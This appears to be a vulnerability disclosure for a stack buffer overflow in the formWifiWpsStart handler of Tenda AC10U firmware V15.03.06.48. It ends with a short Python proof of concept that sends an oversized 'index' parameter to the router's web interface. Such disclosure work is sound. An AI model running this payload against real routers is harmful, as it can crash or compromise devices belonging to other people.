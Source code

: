 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `formWifiWpsStart` function. The `index` variable receives the `index` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `index` can trigger this security vulnerability.

![image-20240309195802781](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309195802781.png)

![image-20240309195638707](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309195638707.png)

![image-20240313154044142](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313154044142.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WifiWpsStart"
payload = b"a"*2000

data = {"index": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313183212191](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313183212191.png)